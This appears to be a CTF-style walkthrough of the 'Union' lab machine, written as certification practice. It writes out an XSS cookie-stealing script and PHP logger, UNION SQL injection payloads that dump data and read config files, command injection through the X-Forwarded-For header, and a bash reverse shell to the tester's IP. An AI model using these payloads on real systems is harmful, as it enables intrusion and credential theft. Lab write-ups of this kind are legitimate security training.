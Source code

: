 ```yaml
---
layout: post
title: "Union"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.96.75 --ulimit 5000

result:
80/tcp open  http    syn-ack

sudo nmap -sC -sV -p80 -oA nmap/union 10.129.126.21

result:
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The site has a player eligibility check field. It is vulnerable to xss

```bash
<script> alert(1) </script>
```

![image.png](/assets/union/image.png)

Let’s enumerate subdirectories

```bash
gobuster dir -u http://10.129.96.75 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php

result:
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/config.php           (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 1220]
/challenge.php        (Status: 200) [Size: 772]
/firewall.php         (Status: 200) [Size: 13]

#firewall.php access denied
```

Create js script to grab the cookie: js.script

```bash
new Image().src='http://10.10.14.118/index.php?c='+document.cookie

```

Create php server script: index.php

```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

```

Now run the server

```bash
sudo php -S 0.0.0.0:80
```

Now execute the XSS exploit

```bash
<script src=http://10.10.14.118/script.js></script>

```

It’s our own cookie..

Let’s also try SQL injections with sqlmap. First coy the POST request to file

![image.png](/assets/union/image%201.png)

Now use sqlmap:

```bash
sqlmap -r player.req --batch
```

Did not work

Let’s do the same with the flag request page:

```bash
sqlmap -r flag.req --batch
```

sqlmap returns nothing

We had to have started with a valid name that is not eligible

```bash
ippsec
```

![image.png](/assets/union/image%202.png)

Now we try to inject it with sql

![image.png](/assets/union/image%203.png)

It is still return not eligible, but when we try a user who is eligible, we get

![image.png](/assets/union/image%204.png)

Therefore we know that the site is vulnerable to sql injections. Let’s try union injection

```bash
ipps' union SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA-- - 
```

![image.png](/assets/union/image%205.png)

The result mysql is the first row of the schemata table.

Let’s find out how many columns are the table returning:

```bash
ipps' UNION select 1,2-- -

This return congratulations again so we know the table only has 1 column
```

As it only returns one field, let’s concat all rows together

```bash
ipps' union select group_concat(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA-- - 

result:mysql,information_schema,performance_schema,sys,november
```

The only non-default table is november. Let’s enumerate further

```bash
ipps' union select group_concat(TABLE_NAME, ":", COLUMN_NAME, "\n") FROM INFORMATION_SCHEMA.columns where TABLE_SCHEMA like 'november'-- - 

result:
Sorry, flag:one
,players:player
```

There is a flag table with column name one, and players table with column name player

Let’s see the flag table first

```bash
ipps' union select group_concat(one, "\n") FROM november.flag-- - 

result:
UHC{F1rst_5tep_2_Qualify}
```

Let’s do the player

```bash
ipps' union select group_concat(player, "\n") FROM november.players-- -

result:
Sorry, ippsec
,celesian
,big0us
,luska
,tinyboy 
```

let’s input the flag into the site. Our IP address has now been granted ssh access.

We can continue on with our injection to find user credentials to access.

```bash
ipps' union select LOAD_FILE('/var/www/html/index.php')-- -

result:
we see file pointing to a config.php. Let's see what that is

ipps' union select LOAD_FILE('/var/www/html/config.php')-- -

result:
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

We get a username and password.

Now let’s try to ssh in. We are in.

```bash
cat user.txt

3f1ceafb864dd39736ecbfbb3f9d6c0b
```

Let’s investigate the web configuration files more as normally only the root user is allowed to set firewall rules to allow us to access another port.

Looking at the firewall.php file in /var/www/html, we can see there is a command injection flaw. This lets any thing put in variable $ip and gets executed.

```bash
 <?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

 
```

Now let’s visit the firewall.php and capture the traffic so we can add the header and command inject

![image.png](/assets/union/image%206.png)

As we can see, when we added the whoami, the server replied with www-data, another way is to use the command sleep 2; see if the server stops for 2 seconds before replying. Now we can try a reverse shell

```bash
host:
nc -lnvp 4040

On burp:
bash -c 'bash -i >&/dev/tcp/10.10.14.118/4040 0>&1';
```

![image.png](/assets/union/image%207.png)

Now we have shell

Now we check sudo privileges

```bash
sudo -l                                                                                                                                   00:00:31 [12/62]
Matching Defaults entries for www-data on union:                                                                                                          
    env_reset, mail_badpass,                                                                                                                              
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                              
                                                                                                                                                          
User www-data may run the following commands on union:                                                                                                    
    (ALL : ALL) NOPASSWD: ALL   
```

We can execute anything…

```bash
sudo su root

```

- sql union injection
- leaked config files using LOAD_FILE
- command injection vulnerability using HTTP HEADERS
- sudo -l privileges